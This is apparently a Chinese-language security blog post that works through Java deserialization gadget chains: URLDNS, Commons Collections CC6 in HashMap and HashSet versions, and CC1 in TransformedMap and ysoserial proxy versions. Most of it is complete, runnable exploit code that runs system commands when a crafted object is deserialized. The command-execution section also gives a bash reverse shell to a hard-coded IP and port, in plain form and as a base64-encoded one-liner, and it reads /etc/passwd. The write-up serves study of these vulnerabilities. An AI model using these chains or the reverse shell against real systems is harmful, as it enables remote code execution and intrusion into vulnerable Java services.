# Java CC1 && CC6 链


Java CC1 && CC6 链

# 前置

## URLDNS 链

URLDNS 是 Java 反序列化漏洞中的一种，利用了 Java 在反序列化过程中可以解析 URL，并且在请求期间利用 DNS 反向解析来泄露信息。

URLDNS 核心是 java.net.URL 类

**URLDNS 链示例**



首先当进行 URL 组合 hashCode() 代码执行时，底层代码会执行到 URLStreamHander 类的 getHostAddress 方法，达到触发 DNSLOG 请求的效果，如

```
package com.l202519;

import java.net.URL;

public class Main_ {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://92twaa.ceye.io");
        url.hashCode();
    }
}
```

DNS 网站成功接收到了请求信息



假设不能直接调用 hashCode，这时就需要通过其他多个类组合，最终触发某个类内部的 hashCode，搭配出 URLDNS 链

在 HashMap 类的 readObject 方法中，会执行 hash(key)



继续跟进 hash 方法，内部会执行 hashCode



完整 URLDNS 链

```
package com.l202519;

import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class Main_ {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://92twaa.ceye.io");
        HashMap hashMap = new HashMap();
        setFieldValue(url, "hashCode", 888);
        //调用了 setFieldValue 方法，通过反射修改了 URL 对象的私有字段 hashCode，将其值设为 888，避免在 hashMap.put 的时候触发DNS解析
        hashMap.put(url, "useless");
        setFieldValue(url, "hashCode", -1);
        byte[] poc = serialize(hashMap);
        unserialize(poc);
    }

    public static byte[] serialize(Object obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        baos.close();
        oos.close();
        return baos.toByteArray();
    }

    public static void unserialize(byte[] poc) throws Exception {
        ByteArrayInputStream bais = new ByteArrayInputStream(poc);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        bais.close();
        ois.close();
    }

    public static void setFieldValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        System.out.println(field);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```


## 命令执行

### Runtime 类

获取命令执行输出结果

```
package com.l202519;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;

public class Main_ {
    public static void main(String[] args) throws Exception {
        InputStream is = Runtime.getRuntime().exec("cat /etc/passwd").getInputStream();
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        int len = 0;
        byte[] cache = new byte[1024];
        while ((len = is.read(cache)) != -1) {
            baos.write(cache, 0, len);
        }
        System.out.println(baos);
    }
}
```


**Linux 无法重定向**

```
String a = "echo 123 > 1.txt";
```

如果命令是一个字符串，那么 Java 会后面的 123 > 1.txt 视为一个字符串去 echo，这样代码就不是预期效果

**解决方案一**

数组传参



```
public class Main_ {
    public static void main(String[] args) throws Exception {
        String[] cmd = new String[]{"/bin/sh", "-c", "echo 123 > /1.txt"};
        Runtime.getRuntime().exec(cmd);
    }
}
```

**方案二**

Base64

/bin/bash -c 'bash -i >& /dev/tcp/60.204.244.254/7788 0>&1'

```
package com.l202519;

public class Main_ {
    public static void main(String[] args) throws Exception {
        String cmd = "bash -c {echo,L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzYwLjIwNC4yNDQuMjU0Lzc3ODggMD4mMSc=}|{base64,-d}|{bash,-i}";
        Runtime.getRuntime().exec(cmd);
    }
}
```


### ProcessBuilder 类

用法如下

```
package com.l202519;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;

public class Main_ {
    public static void main(String[] args) throws Exception {
        InputStream inputStream = new ProcessBuilder("whoami").start().getInputStream();
        byte[] cache = new byte[1024];
        int len = 0;
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        while ((len = inputStream.read(cache)) != -1) {
            baos.write(cache, 0, len);
        }
        System.out.println(baos);
    }
}
```

Runtime 内部也是通过 ProcessBuilder 



### Processlmpl 类

用法

```
package com.l202519;

import java.lang.reflect.Method;
import java.io.InputStream;
import java.io.ByteArrayOutputStream;
import java.util.Map;

public class Main_ {
    public static void main(String[] args) throws Exception {
        String[] cmds = new String[]{"whoami"};
        Class clazz = Class.forName("java.lang.ProcessImpl");
        Method method = clazz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
        method.setAccessible(true);
        Process e = (Process) method.invoke(null, cmds, null, ".", null, true);
        InputStream inputStream = e.getInputStream();
        byte[] cache = new byte[1024];
        int len = 0;
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        while ((len = inputStream.read(cache)) != -1) {
            baos.write(cache, 0, len);
        }
        System.out.println(baos);
    }
}
```


### 一些问题

echo 命令

由于系统环境变量找不到 echo 执行文件，所以使用 cmd 命令进行 echo 的使用





```
package com.l202519;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;

public class Main_ {
    public static void main(String[] args) throws Exception {
        InputStream is = Runtime.getRuntime().exec("cmd /c echo 123").getInputStream();
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        int len = 0;
        byte[] cache = new byte[1024];
        while ((len = is.read(cache)) != -1) {
            baos.write(cache, 0, len);
        }
        System.out.println(baos);
    }
}
```






# CC6

CC6 链是 Commons Collections 反序列化漏洞 中影响范围最广的一条利用链，它仅受 Commons Collections 版本的影响，不受 Java 版本的限制。

受影响的 Commons Collections 范围：

```
commons-collections：3.1 - 3.2.1
```

环境配置



本次漏洞分析环境采用 commons-collections 3.2.1 版本

## HashMap 版利用链

要实现反序列化命令执行，最基础的思路是通过 Runtime.exec() 触发计算器：

```
Runtime.getRuntime().exec("calc.exe");
```

但我们不能直接调用 exec()，因此需要在 commons-collections 依赖中找到一个可利用的调用链来在反序列化时触发这个命令。

**Sink：** 

在 InvokerTransformer#transform 中有反射调用代码段，并且参数都是可控的



当 input 赋为 Runtime 对象并给 cls，cls.getMethod 封装 Runtime#exec 类方法元信息，再给 iArgs 赋为系统命令，此时调用 transform，能够达成上面的 "目标实现"



```
public class Test {
    public static void main(String[] args) throws Exception {
        Runtime r = Runtime.getRuntime();
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);
    }
}
```



**Gadget：**

在明确了 InvokerTransformer#transform 方法的功能及其可用于命令执行的特性后，接下来的重点是分析调用链，即寻找哪些类能够直接或间接地调用 transform 方法

使用 IDEA 的 Find Usages 功能，搜索所有调用 transform 方法的代码路径



ChainedTransformer#transform 方法将 iTransformers 数组循环取出去调用数组内对象的 transform 方法，并将前一个方法返回结果作为调用数组下一对象的 object 参数，循环链式调用。



ConstantTransformer#transform 方法固定返回 iConstant 属性。



iTransformers 数组 与 iConstant 属性都可控，在实例化时赋值。

我们将 Runtime.getRuntime().exec("calc.exe"); 改为反射形式

```
Method method = Runtime.class.getMethod("getRuntime");
Runtime runtime = (Runtime) method.invoke(null);
runtime.exec("calc.exe");
```

并通过 ChainedTransformer#transform 与 ConstantTransformer#transform 实现上列反射流程，在走到 InvokerTransformer#transform 的 getMethod 方法时仍然需要指定形参类型

如果不指定，会报以下错误



getMethod 第二个参数 parameterTypes 用来精确匹配目标方法的参数签名，以定位要执行的方法，在反射调用使用 getMethod 时，必须制定好调用类方法的形参类型。Runtime#exec 内部接收的是 String 类型，因此第二个参数传入为 String.class





通过反射调用方法传入参数时，即使参数不给值，也需要传入 null



```
public class Test1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(null);
    }
}
```



接下来寻找调用 chainedTransformer#transform，在 LazyMap#get 中存在 factory.transform



继续追链，TideMapEntry#getValue 中调用了 get 方法



同样在 TideMapEntry 类中，hashCode 去调用了 getValue



需要调用 hashCode 方法，正好 URLDNS 调用链同样是调用 hashCode，直接借用。Java 核心类库 HashMap 类中，hash 方法调用了 hashCode



**Source：**

最后 HashMap#readObejct 调用 hash，完成调用链闭环



初步利用链：

```
package com.xiinnn;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.HashMap;
import java.util.Map;

public class Test1 {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(null)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map lazyMap = LazyMap.decorate(new HashMap(), chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "abc");
        HashMap hashMap = new HashMap();
        hashMap.put(tiedMapEntry, "useless");
        byte[] poc = Serialize(hashMap);
    }

    public static byte[] Serialize(Object obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }

    public static void UnSerialize(byte[] poc) throws Exception {
        ByteArrayInputStream bais = new ByteArrayInputStream(poc);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }
}
```

只进行序列化，发现序列化时就会触发命令执行

断点调试，发现是在 hashMap.put 的时候触发的



在 URLDNS 链中，URL#hashCode 方法存在 if 判断，通过将 hashCode 属性反射赋值为 -1 绕过了 put 执行，但 TiedMapEntry#hashCode 并没有 if 判断，一旦触发就会直接往后走，该如何绕过呢



解决方案：先让 LazyMap 使用 ConstantTransformer(1) 占位，干扰原始 transform() 的调用时机，再修改 factory 属性为 ChainedTransformer，确保最后执行反序列化时利用链正确。

执行，发现又出现新的问题，反序列化时也不触发 exec 了

```
package com.xiinnn;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class Test1 {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(null)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map lazyMap = LazyMap.decorate(new HashMap(), new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "abc");
        HashMap hashMap = new HashMap();
        hashMap.put(tiedMapEntry, "useless");
        SetFieldValue(lazyMap, "factory", chainedTransformer);
        byte[] poc = Serialize(hashMap);
        UnSerialize(poc);
    }

    public static byte[] Serialize(Object obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }

    public static void UnSerialize(byte[] poc) throws Exception {
        ByteArrayInputStream bais = new ByteArrayInputStream(poc);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    public static void SetFieldValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

继续断点逐步调试，containsKey(Object key) 用于判断 Map 是否包含指定的 key，如果 key 存在于 Map 中，则返回 true，否则返回 false。显然程序在 LazyMap#get 处没能按照预期进入 if 方法体内



解决方法：去除 LazyMap key 属性

最终 Exp

```
package com.xiinnn;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class Test1 {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(null)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map lazyMap = LazyMap.decorate(new HashMap(), new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "abc");
        HashMap hashMap = new HashMap();
        hashMap.put(tiedMapEntry, "useless");
        SetFieldValue(lazyMap, "factory", chainedTransformer);
        lazyMap.remove("abc");
        byte[] poc = Serialize(hashMap);
        UnSerialize(poc);
    }

    public static byte[] Serialize(Object obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }

    public static void UnSerialize(byte[] poc) throws Exception {
        ByteArrayInputStream bais = new ByteArrayInputStream(poc);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    public static void SetFieldValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```



Gadget chain：

```
java.io.ObjectInputStream.readObject()
	java.util.HashMap.readObject()
        java.util.HashMap.hash()
            org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                    org.apache.commons.collections.map.LazyMap.get()
                        org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            	java.lang.reflect.Method.invoke()
                                	java.lang.Runtime.exec()
```


## HashSet 版利用链

在 ysoserial 项目 cc6 payload 中，调用链入口是 HashSet，再到 HashMap，其他一致



依然回到 hashCode 的分析上，前面都一致


在 HashMap#put 方法中，同样能够进行 hash -> hashCode



再往前追，让HashSet#readObject 的 map 属性赋为 HashMap 即可，调用链完成



Exp：

```
package com.xiinnn;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class Test1 {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(null)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map lazyMap = LazyMap.decorate(new HashMap(), new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "abc");
        HashMap hashMap = new HashMap();
        hashMap.put(tiedMapEntry, "useless");
        HashSet hashSet = new HashSet();              //1. 在 HashMap版基础上修改这三段代码即可
        SetFieldValue(hashSet, "map", hashMap);       //2
        SetFieldValue(lazyMap, "factory", chainedTransformer);
        lazyMap.remove("abc");
        byte[] poc = Serialize(hashSet);              //3
        UnSerialize(poc);
    }

    public static byte[] Serialize(Object obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }

    public static void UnSerialize(byte[] poc) throws Exception {
        ByteArrayInputStream bais = new ByteArrayInputStream(poc);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    public static void SetFieldValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```


# CC1

## TransformedMap 版 

在已经分析过 CC6 的前提下分析 CC1，从 ChainedTransfomer#transform 继续往前找调用链



在 TransformedMap#checkSetValue 方法调用了 transform，且该方法为 protected 修饰



valueTransformer 属性可以通过 TransformedMap#decorate 返回构造方法赋值，接下来寻找一个调用 checkSetValue 的类





在 AbstractInputCheckedMapDecoratorMapEntry#setValue 方法调用了 checkSetValue

setValue 也无法被直接调用，继续往前找



在 AnnotationInvocationHandler#readObject 中调用了 setValue 方法，那么接下来根据链子构造代码



初步：

在序列化 invokerTransformer 时，实质上是序列化了 AnnotationInvocationHandler，因此反序列化时会自动调用其 readObject 方法，也就是 AnnotationInvocationHandler#readObject

```
public class Test {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap hashMap = new HashMap();

        Map transformerMap = TransformedMap.decorate(hashMap, null , chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);

        InvocationHandler invokerTransformer = (InvocationHandler) constructor.newInstance(Override.class, transformerMap);

        byte[] poc = Serialize(invokerTransformer);
        UnSerialize(poc);
    }

    public static byte[] Serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }

    public static Object UnSerialize(byte[] poc) throws IOException, ClassNotFoundException{
        ByteArrayInputStream bais = new ByteArrayInputStream(poc);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

在走入 AnnotationInvocationHandler#readObject 后，预期应该步入 for 循环中直至触发 setValue，但实际上却没能触发循环



此时 membersValues 值为空，因此 entrySet() 并没有返回值



```
hashMap.put("abc", "def");
```

赋值再看返回值，成功进入到循环体内



接下来要过几层判断

```
1、memberType/memberTypes 维护的是注解参数的列表，存储了注解类有关的信息
2、memberType.isInstance(value) ||  value instanceof ExceptionProxy)判断类受否能进行强转，||表示前面为真后面也会为真
```

最终：

```
package com.xiinnn;

import com.sun.prism.shader.DrawCircle_LinearGradient_REPEAT_AlphaTest_Loader;
import com.sun.xml.internal.bind.v2.runtime.reflect.opt.Const;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Repeatable;
import java.lang.annotation.Target;
import java.lang.instrument.ClassDefinition;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
// import sun.reflect.annotation.AnnotationInvocationHandler;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap hashMap = new HashMap();
        hashMap.put("value", "def");

        Map transformerMap = TransformedMap.decorate(hashMap, null , chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);

        InvocationHandler invokerTransformer = (InvocationHandler) constructor.newInstance(Repeatable.class, transformerMap);

        byte[] poc = Serialize(invokerTransformer);
        UnSerialize(poc);
    }

    public static byte[] Serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }

    public static Object UnSerialize(byte[] poc) throws IOException, ClassNotFoundException{
        ByteArrayInputStream bais = new ByteArrayInputStream(poc);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```


## Ysoserial 版

Ysoserial 的链子是利用代理模式，与 TransformedMap 版大有不同。

视线回到 LazyMap#get，接着往前寻找调用 get 方法的类



在 AnnotationInvocationHandler#invoke 方法中调用了 get，那么如何调用 invoke 呢



在代理模式中，不会去执行 Map 接口的 get()、entrySet() 等，而是所有这些方法的调用都会被转发到 InvocationHandler 的 invoke() 方法

memberValues 是可控的，而 invoke 处允许执行 get，因此我们传入动态代理对象，同时需要进行类型转换 Map，它的 @NotNull InvocationHandler h 是 inInvocationHandler。



设置两层代理，外层代理的 memberValues 赋为 Map 类型代理类，代理对象为 AnnotationInvocationHandler，内层代理的 memberValues 赋为 LazyMap，完成利用链闭合

最终：

```
public class Test {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);

        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);

        InvocationHandler inInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);

        Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, inInvocationHandler);

        InvocationHandler outInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, proxyMap);

        byte[] poc = Serialize(outInvocationHandler);
        UnSerialize(poc);
    }

    public static byte[] Serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }

    public static Object UnSerialize(byte[] poc) throws IOException, ClassNotFoundException{
        ByteArrayInputStream bais = new ByteArrayInputStream(poc);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```




---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95-cc1-cc6/  

